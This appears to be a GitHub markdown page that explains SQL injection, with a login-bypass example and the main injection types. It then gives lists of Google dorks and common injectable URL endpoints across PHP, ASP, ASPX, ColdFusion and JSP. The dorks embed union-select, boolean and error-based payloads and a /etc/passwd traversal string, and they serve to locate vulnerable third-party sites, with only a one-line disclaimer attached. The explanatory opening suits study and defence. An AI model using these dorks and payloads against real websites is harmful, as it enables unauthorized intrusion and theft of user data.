 SQL Injection (SQLi) is a type of security vulnerability that occurs when an attacker is able to manipulate SQL queries executed by a web application. This typically happens when user input is improperly sanitized or validated before being used in a SQL query. SQL injection can allow attackers to execute arbitrary SQL code, which can lead to various malicious activities such as:

1. **Data Theft:** Accessing sensitive data such as user credentials, personal information, or financial records.
2. **Data Manipulation:** Inserting, updating, or deleting records in the database, potentially altering or destroying valuable information.
3. **Authentication Bypass:** Gaining unauthorized access to applications by bypassing authentication mechanisms.
4. **Privilege Escalation:** Executing administrative operations that can lead to full control over the database and possibly the underlying server.
5. **Remote Code Execution:** In some cases, attackers might exploit SQL injection to execute arbitrary commands on the server, leading to full server compromise.

### How SQL Injection Works

SQL injection typically involves inserting or "injecting" malicious SQL code into a query. For example, consider a simple login form where a user provides a username and password. The server might construct a query to check the credentials against the database:

```sql
SELECT * FROM users WHERE username = 'user_input' AND password = 'user_password';
```

If the `user_input` or `user_password` fields are not properly sanitized, an attacker could input something like:

```sql
' OR '1'='1
```

This could turn the query into:

```sql
SELECT * FROM users WHERE username = '' OR '1'='1' AND password = '';
```

In this example, `'1'='1'` is always true, so the query may return all rows, allowing the attacker to bypass authentication.

### Types of SQL Injection

1. **In-Band SQL Injection:** The attacker uses the same channel to both launch the attack and gather the results. This includes:
   - **Error-Based SQL Injection:** Leveraging database error messages to gain information about the database structure.
   - **Union-Based SQL Injection:** Using the `UNION` operator to combine results from multiple queries.

2. **Blind SQL Injection:** The attacker does not see direct error messages but can infer information based on the application's behavior. This includes:
   - **Boolean-Based Blind SQL Injection:** Modifying the query to return true or false and observing the application's response.
   - **Time-Based Blind SQL Injection:** Inferring information based on how long it takes the application to respond to the injected query.

3. **Out-of-Band SQL Injection:** The attacker uses different channels to receive data, such as using HTTP requests or DNS queries.


# sql injection Dorks
SQL injection dorks are search queries designed to find websites vulnerable to SQL injection attacks. They typically involve using search engines like Google to identify pages that might be susceptible to these kinds of attacks. Below are some common SQL injection dorks you can use to identify potential targets. Please use these responsibly and only in a legal and ethical context, such as testing your own applications or with explicit permission from the website owner.

### Basic SQL Injection Dorks

1. **Standard SQL Injection Dorks:**
   - `inurl:index.php?id=`
   - `inurl:product.php?pid=`
   - `inurl:article.php?aid=`
   - `inurl:news.php?id=`
   - `inurl:page.php?page=`

2. **Union-Based SQL Injection Dorks:**
   - `inurl:page.php?id=1 union select 1,2,3`
   - `inurl:product.php?pid=1 union select null, null, null, null`
   - `inurl:item.php?id=1 union all select null, null, null, null`

3. **Error-Based SQL Injection Dorks:**
   - `inurl:details.php?id=1'`
   - `inurl:view.php?id=1'`
   - `inurl:show.php?id=1'`
   - `inurl:category.php?id=1'`

4. **Boolean-Based SQL Injection Dorks:**
   - `inurl:search.php?q=1' and 1=1--`
   - `inurl:search.php?q=1' and 1=2--`
   - `inurl:product.php?id=1' or '1'='1`

5. **Other SQL Injection Dorks:**
   - `inurl:news.php?id=1' AND 1=1--`
   - `inurl:login.php?username=admin' AND 1=1--`
   - `inurl:register.php?username=admin' OR 1=1--`
   - `inurl:signup.php?email=test' OR '1'='1--`

### Advanced SQL Injection Dorks

1. **Vulnerable Parameters:**
   - `intitle:"index of" "admin" "password"`
   - `inurl:admin.php?username=admin' AND password LIKE '%`
   - `inurl:config.php DB_USER`

2. **Data Extraction:**
   - `inurl:database.php?db=information_schema.tables`
   - `inurl:db.php?table=users`

3. **File Inclusion:**
   - `inurl:config.php?id=1' UNION SELECT NULL,NULL,NULL--`
   - `inurl:include.php?page=../../../../etc/passwd`


### Common SQL Injection Endpoints

#### PHP:

1. `index.php?category=<SQLi payload>`
2. `product.php?id=<SQLi payload>`
3. `news.php?article_id=<SQLi payload>`
4. `user.php?username=<SQLi payload>`
5. `login.php?username=<SQLi payload>&password=<SQLi payload>`
6. `search.php?q=<SQLi payload>`
7. `blog.php?post_id=<SQLi payload>`
8. `forum.php?thread_id=<SQLi payload>`
9. `profile.php?user_id=<SQLi payload>`
10. `admin.php?username=<SQLi payload>&password=<SQLi payload>`

#### ASP:

1. `default.asp?catid=<SQLi payload>`
2. `product.asp?id=<SQLi payload>`
3. `news.asp?newsid=<SQLi payload>`
4. `login.asp?username=<SQLi payload>&password=<SQLi payload>`
5. `search.asp?q=<SQLi payload>`
6. `blog.asp?postid=<SQLi payload>`
7. `forum.asp?threadid=<SQLi payload>`
8. `profile.asp?userid=<SQLi payload>`
9. `admin.asp?username=<SQLi payload>&password=<SQLi payload>`
10. `register.asp?username=<SQLi payload>&password=<SQLi payload>`

#### ASPX:

1. `default.aspx?catid=<SQLi payload>`
2. `product.aspx?id=<SQLi payload>`
3. `news.aspx?newsid=<SQLi payload>`
4. `login.aspx?username=<SQLi payload>&password=<SQLi payload>`
5. `search.aspx?q=<SQLi payload>`
6. `blog.aspx?postid=<SQLi payload>`
7. `forum.aspx?threadid=<SQLi payload>`
8. `profile.aspx?userid=<SQLi payload>`
9. `admin.aspx?username=<SQLi payload>&password=<SQLi payload>`
10. `register.aspx?username=<SQLi payload>&password=<SQLi payload>`

#### CFM (ColdFusion):

1. `index.cfm?catid=<SQLi payload>`
2. `product.cfm?id=<SQLi payload>`
3. `news.cfm?newsid=<SQLi payload>`
4. `login.cfm?username=<SQLi payload>&password=<SQLi payload>`
5. `search.cfm?q=<SQLi payload>`
6. `blog.cfm?postid=<SQLi payload>`
7. `forum.cfm?threadid=<SQLi payload>`
8. `profile.cfm?userid=<SQLi payload>`
9. `admin.cfm?username=<SQLi payload>&password=<SQLi payload>`
10. `register.cfm?username=<SQLi payload>&password=<SQLi payload>`

#### JSP:

1. `index.jsp?catid=<SQLi payload>`
2. `product.jsp?id=<SQLi payload>`
3. `news.jsp?newsid=<SQLi payload>`
4. `login.jsp?username=<SQLi payload>&password=<SQLi payload>`
5. `search.jsp?q=<SQLi payload>`
6. `blog.jsp?postid=<SQLi payload>`
7. `forum.jsp?threadid=<SQLi payload>`
8. `profile.jsp?userid=<SQLi payload>`
9. `admin.jsp?username=<SQLi payload>&password=<SQLi payload>`
10. `register.jsp?username=<SQLi payload>&password=<SQLi payload>`




